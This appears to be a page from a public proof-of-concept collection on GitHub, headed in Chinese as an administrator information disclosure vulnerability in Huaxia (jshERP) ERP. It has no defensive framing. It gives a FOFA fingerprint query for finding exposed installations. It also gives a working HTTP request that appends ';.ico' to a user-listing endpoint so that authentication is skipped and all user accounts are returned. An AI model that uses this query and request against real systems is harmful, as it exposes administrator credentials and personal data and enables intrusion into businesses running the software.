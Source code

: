 ## 华夏ERP管理员信息泄露漏洞

## fofa
```
icon_hash="-1298131932"
```
## POC
```
GET /jshERP-boot/user/getAllList;.ico HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip
```

![image](https://github.com/wy876/POC/assets/139549762/c56b507b-923f-46c0-a858-bfa938df0829)
